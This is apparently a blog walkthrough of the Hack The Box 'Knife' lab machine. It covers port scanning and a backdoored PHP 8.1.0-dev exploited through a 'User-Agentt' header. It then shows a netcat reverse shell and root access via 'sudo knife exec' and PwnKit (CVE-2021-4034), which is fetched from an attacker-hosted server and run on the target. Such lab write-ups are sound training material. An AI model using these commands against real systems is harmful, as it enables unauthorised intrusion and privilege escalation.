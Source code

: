 ```yaml
---
title: Knife
published: true
layout: post
---
```


<br />

---------------
Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

<br />

<iframe style="display: block; margin: auto; max-width=100%;" width="672" height="378" src="https://www.youtube.com/embed/dkUBdFwqKy4?si=s26SYzfXwAwA_9kW" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.242 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![All Ports](/assets/Knife/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Knife/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp Apache httpd 2.4.41**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Knife/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

I think this machine is pretty **beginner-friendly**, as we can solve it basically by enumerating and searching for exploits, however we have to understand what we are doing.

<br />

The first thing that revealed a vulnerability was the **technologies enumeration**:

```bash
whatweb http://10.10.10.242 > whatweb.txt
```

![Whatweb](/assets/Knife/4.png)
<br />
<br />
<br />

The version of PHP is definitely noteworthy, **8.1.0-dev**, the *-dev* suffix is not common in production environments, which leads me to search for a vulnerability using searchsploit:

```bash
searchsploit PHP 8.1.0-dev
```

![Searchsploit](/assets/Knife/5.png)
<br />
<br />
<br />

We can see an exploit that perfectly fits our version, so let's read it and try to replicate it:
![Exploit](/assets/Knife/6.png)
<br />
<br />
<br />

It seems that the script sends an HTTP request in which there is an uncommon header, *User-Agentt*, in which we can use the function `zerodiumsystem()` to **execute a command**, which output is printed before the *<!DOCTYPE html>* tag. Let's try it using BurpSuite:

![whoami](/assets/Knife/7.png)
<br />
<br />
<br />

It's working like a charm, let's send us a **reverse shell**:
```bash
rlwrap nc -nlvp 4444
```

![RevShell](/assets/Knife/8.png)
<br />
<br />
<br />

Let's print the flag and go for the privilege escalation:
<br />
![UserOwn](/assets/Knife/9.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation
For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation
Enumerating the system, I discovered that we are able to run the `knife` command as sudo without requiring a password:
```bash
sudo -l
```

![sudo](/assets/Knife/10.png)
<br />
<br />
<br />

A glimpse at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) uncovered the way:
```
sudo knife exec -E 'exec "/bin/bash"'
```
![knifeprivesc](/assets/Knife/11.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)

<br />
#### Alternative Privilege Escalation
The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Knife/13.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit) created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.8/PwnKit
chmod +x PwnKit
./PwnKit
```

![PwnKit](/assets/Knife/14.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)
<br />
<br />
<br />
